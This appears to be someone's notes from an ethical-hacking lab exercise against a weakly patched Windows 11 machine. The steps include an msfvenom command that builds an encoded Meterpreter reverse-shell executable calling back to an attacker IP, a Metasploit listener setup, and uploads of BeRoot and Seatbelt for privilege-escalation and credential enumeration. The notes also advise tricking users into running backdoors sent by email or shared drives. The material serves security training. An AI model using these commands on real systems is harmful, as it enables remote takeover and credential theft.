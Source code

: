 Backdoors are malicious files that contain trojan or other infectious applications that can either halt the current working state of a target machine or even gain partial or complete control over it. Here, you need to build such backdoors to gain remote access to the target system. You can send these backdoors through email, file-sharing web applications, and shared network drives, among other methods, and entice the users to execute them. Once a user executes such an application, you can gain access to their affected machine and perform activities such as keylogging and sensitive data extraction.

##### Escalate Privileges using Privilege Escalation Tools and Exploit Client-Side Vulnerabilities
Privilege escalation tools such as BeRoot and GhostPack Seatbelt allow you to run a configuration assessment on a target system to find information about the underlying vulnerabilities of system resources such as services, file and directory permissions, kernel version, and architecture. Using this information, you can find a way to further exploit and elevate the privileges on the target system.

Exploiting client-side vulnerabilities allows you to execute a command or binary on a target machine to gain higher privileges or bypass security mechanisms. Using these exploits, you can further gain access to privileged user accounts and credentials.

This task demonstrates the exploitation procedure on a weakly patched Windows 11 machine that allows you to gain access through a Meterpreter shell, and then employing privilege escalation techniques to attain administrative privileges to the machine through the Meterpreter shell.

1. `msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.10.1.13 -f exe > /home/attacker/Desktop/Exploit.exe` : To create a Reverse TCP Shell Virus

2. Send this Virus to the Target Computer and then start the Listener. To start the listener use the command, `msfconsole` and then `use exploit/multi/handler`. 
3. Then `set payload windows/meterpreter.reverse_tcp` and `set LHOST 10.10.1.13`. Then to run the listener in the background, we can use the command : `exploit -j -z`.
4. When the Target System runs the application, we can check that our Attacking System using the command : `sessions -i 1`
5. Now that you have gained access to the target system with normal user privileges, your next task is to perform privilege escalation to attain higher-level privileges in the target system.
6. First, we will use privilege escalation tools (BeRoot), which allow you to run a configuration assessment on a target system to find out information about its underlying vulnerabilities, services, file and directory permissions, kernel version, architecture, as well as other data. Using this information, you can find a way to further exploit and elevate the privileges on the target system.
7. Now, we will copy the BeRoot tool on the host machine (Parrot Security), and then upload the tool onto the target machine (Windows 11) using the Meterpreter session.
8. Now, switch back to the **Terminal** window with an active **meterpreter** session. Type **upload /home/attacker/Desktop/BeRoot/beRoot.exe** and press **Enter**. This command uploads the **beRoot.exe** file to the target system’s present working directory (here, **Downloads**).
9. Type **shell** and press **Enter** to open a shell session. Observe that the present working directory points to the **Downloads** folder in the target system.
	![[Pasted image 20241211163224.png]]
10. Upload Seatbelt.exe.
11. Type **Seatbelt.exe -group=system** and press **Enter** to gather information about AMSIProviders, AntiVirus, AppLocker etc.
12. Type **Seatbelt.exe -group=user** and press **Enter** to gather information about ChromiumPresence, CloudCredentials, CloudSyncProviders, CredEnum, dir, DpapiMasterKeys etc.
13. Type **Seatbelt.exe -group=misc** and press **Enter** to gather information about ChromiumBookmarks, ChromiumHistory, ExplicitLogonEvents, FileInfo etc.
14. ![[Pasted image 20241211163713.png]]
15. Another method for performing privilege escalation is to bypass the user account control setting (security configuration) using an exploit, and then to escalate the privileges using the Named Pipe Impersonation technique.
16. Now, let us check our current system privileges by executing the `run post/windows/gather/smart_hashdump` command.
17. The command fails to dump the hashes from the SAM file located on the Windows 11 machine and returns an error stating Insufficient privileges to dump hashes!.
18. From this, it is evident that the Meterpreter session requires admin privileges to perform such actions. 